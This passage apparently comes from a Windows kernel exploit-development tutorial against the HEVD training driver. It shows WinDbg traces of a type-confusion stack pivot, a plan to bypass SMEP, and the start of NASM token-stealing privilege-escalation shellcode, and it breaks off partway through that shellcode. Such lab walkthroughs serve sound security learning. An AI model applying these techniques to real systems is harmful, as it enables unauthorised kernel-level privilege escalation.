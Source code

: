 ```WinDbg
0: kd> bp fffff800`60c6754b
0: kd> g
Breakpoint 1 hit
HEVD!TypeConfusionObjectInitializer+0x37:
fffff800`60c6754b ff5308          call    qword ptr [rbx+8]
```
After we set a breakpoint there, we can follow the execution flow:
```WinDbg
0: kd> t
nt!CcZeroData+0x5c:
fffff803`8e132840 bc000000e8      mov     esp,0E8000000h
0: kd> 
nt!CcZeroData+0x61:
fffff803`8e132845 c3              ret
0: kd> k
 # Child-SP          RetAddr               Call Site
00 00000000`e8000000 00000000`00000000     nt!CcZeroData+0x61
0: kd> t
nt!KiQuantumEnd+0xaea:
fffff803`8dc17dfa 90              nop
0: kd> t
nt!KiQuantumEnd+0xaeb:
fffff803`8dc17dfb c3              ret
0: kd> 
nt!KiQuantumEnd+0xaea:
fffff803`8dc17dfa 90              nop
0: kd> 
nt!KiQuantumEnd+0xaeb:
fffff803`8dc17dfb c3              ret
0: kd> 
nt!KiQuantumEnd+0xaea:
fffff803`8dc17dfa 90              nop
0: kd> 
nt!KiQuantumEnd+0xaeb:
fffff803`8dc17dfb c3              ret
0: kd> 
nt!KiQuantumEnd+0xaea:
fffff803`8dc17dfa 90              nop
0: kd> 
nt!KiQuantumEnd+0xaeb:
fffff803`8dc17dfb c3              ret
```

As we can see, we’re able to execute code with stack pivoting. Now we need to:
- [ ] Disable SMEP
- [ ] Run our UM shellcode
- [ ] Return to the UM without BSOD

First of all, we need a shellcode to escalate privileges:
```nasm
BITS 64

section .text

xor rax, rax
xor r9, r9
xor rcx, rcx

mov rax, qword [gs:0x188]
mov rax, qword [rax + 0x220]
mov r9, rax

GetSystemProcess:
	mov r9, qword [r9 + 0x2f0]
```